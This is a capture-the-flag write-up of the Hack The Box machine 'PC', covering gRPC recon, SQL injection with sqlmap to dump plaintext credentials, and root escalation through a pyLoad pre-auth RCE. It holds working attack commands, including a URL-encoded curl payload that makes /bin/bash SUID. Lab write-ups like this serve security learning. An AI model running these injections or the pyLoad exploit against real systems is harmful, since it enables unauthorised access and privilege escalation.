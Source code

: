 ```yaml
---
title: "PC"
tags:
    - machine
    - sqli
    - suid
    - linux privesc
date: "2024-02-09"
thumbnail: "/assets/img/thumbnail/PC.png"
bookmark: true
---
```


# Description
---

<img src="/assets/img/htb/pc/Capture1.JPG" alt="pc">

# Solution
## Recon
---

Applying nmap scan

```bash
┌──(youssif㉿youssif)-[~/Desktop/HTBMachines/PC]
└─$ nmap -sV -sC -Pn -p 80,50051 -oA pc  10.10.11.214

# Nmap 7.92 scan initiated Thu Aug 17 12:37:10 2023 as: nmap -sV -sC -Pn -p- -oA pc 10.10.11.214
Nmap scan report for 10.10.11.214
Host is up (0.075s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91:bf:44:ed:ea:1e:32:24:30:1f:53:2c:ea:71:e5:ef (RSA)
|   256 84:86:a6:e2:04:ab:df:f7:1d:45:6c:cf:39:58:09:de (ECDSA)
|_  256 1a:a8:95:72:51:5e:8e:3c:f1:80:f5:42:fd:0a:28:1c (ED25519)
50051/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port50051-TCP:V=7.92%I=7%D=8/17%Time=64DDF8D7%P=x86_64-pc-linux-gnu%r(N
SF:ULL,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\x0
SF:6\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(Generic
SF:Lines,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\
SF:x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(GetRe
SF:quest,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\
SF:x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(HTTPO
SF:ptions,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0
SF:\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(RTSP
SF:Request,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\
SF:0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(RPC
SF:Check,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\
SF:x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(DNSVe
SF:rsionBindReqTCP,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\
SF:xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0
SF:")%r(DNSStatusRequestTCP,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0
SF:\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\
SF:0\0\?\0\0")%r(Help,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0
SF:\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\
SF:0\0")%r(SSLSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x0
SF:5\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0
SF:\?\0\0")%r(TerminalServerCookie,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xf
SF:f\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0
SF:\0\0\0\0\0\?\0\0")%r(TLSSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?
SF:\xff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x0
SF:8\0\0\0\0\0\0\?\0\0")%r(Kerberos,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\x
SF:ff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\
SF:0\0\0\0\0\0\?\0\0")%r(SMBProgNeg,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\x
SF:ff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\
SF:0\0\0\0\0\0\?\0\0")%r(X11Probe,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff
SF:\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\
SF:0\0\0\0\0\?\0\0");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 17 12:39:34 2023 -- 1 IP address (1 host up) scanned in 143.38 seconds

```

We got this as an output. We have an interesting service on port 50051
After searching about 50051, we will find that the service is gRPC.

## Shell as sau
---

To access its UI there’s a tool called grpcui explained <a href="https://github.com/fullstorydev/grpcui">here</a>
After installing it, we will get access to this GUI.

<img src="/assets/img/htb/pc/Capture2.JPG" alt="grpcui gui">

In the method name field we have 3 options: **Login**,**Register** and **getinfo**
Make sure that burp is opened and receiving the requests.
Let’s try registering using credentials **youssif:youssif** Then login using these credentials and you will get this response.

<img src="/assets/img/htb/pc/Capture3.JPG" alt="register">

We see that we got an id and token.
Let’s go to getinfo and use the id we got 345 => we got this msg

<img src="/assets/img/htb/pc/Capture4.JPG" alt="getinfo">

So we will add the token we got in the metadata field and we will get in the response => “message”: “Will update soon.”
We were using burp let’s go to the requests and send them to the repeater to examine them.
getinfo request is most interesting of them and id parameter is vulnerable to sqli and it can be detected using `id="345 or 1=1--` u will get a different message.
Let’s go to sqlmap and because this request method is POST so we will copy the request in text file and use it with sqlmap, for more information <a href="https://hackertarget.com/sqlmap-post-request-injection/">here</a> 
So from the previous link we knew that we will save the request in a file and use this command.

```bash
sqlmap -r request.txt -p id --tables
```

From this we knew that we have two tables accounts and messages, We are interested in Accounts table.
Anyway Let’s dump the table using this command.

```bash
sqlmap -r request.txt -p id -T accounts --dump
```

<img src="/assets/img/htb/pc/Capture5.JPG" alt="password">

in the output we will find this



passwords are plain text and the user sau seems to be out goal
Actually, IDK what is the pronounce of this name it seems like Siuuuuuuuuuuuuuuuuu

Anyway, when we use this credentials of sau in ssh we get the shell successfully
Congratzzzz we got the user's flag 

<img src="/assets/img/htb/pc/Capture6.JPG" alt="siuuuuuuuu">


## shell as root
---

Let’s move to Root part.

after some enumeration using `netstat -a` I found that `127.0.0.1:8000 in listening state`.
We will use port forwarding to be able to access it using the command

```bash
ssh -L 9001:127.0.0.1:8000 sau@10.10.11.214
```

So we can access it from firefox using the url http://127.0.0.1:9001
We will find that the process is called pyload and after enumerating the running processes using ps -ef we will find that it’s running process by the root.

After searching for exploit for pyload i found many useful articles like:
<a href="https://huntr.com/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65/?source=post_page-----e887b51cffc1--------------------------------">1</a>
<a href="https://www.exploit-db.com/exploits/51532?source=post_page-----e887b51cffc1--------------------------------">2</a>
<a href="https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad?source=post_page-----e887b51cffc1--------------------------------">3</a>

All of these are useful i used this POC for the RCE:-

```bash
curl -i -s -k -X $'POST' --data-binary $'jk=%70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%63%68%6d%6f%64%20%75%2b%73%20%2f%62%69%6e%2f%62%61%73%68%22%29;f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' $'http://127.0.0.1:4444/flash/addcrypted2'
```

The url encoded part:
 `%70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%63%68%6d%6f%64%20%75%2b%73%20%2f%62%69%6e%2f%62%61%73%68%22%29`
is the command i used which is `pyimport os;os.system(“chmod u+s /bin/bash”)`
Then we can execute `/bin/bash -p` using the user sau because `/bin/bash` got **SUID** permission.

<img src="/assets/img/htb/pc/Capture7.JPG" alt="rooted">

Rooted !!

I wish this writeup was useful, THANK YOU.

<img src="/assets/img/htb/pc/Capture8.JPG" alt="thanks">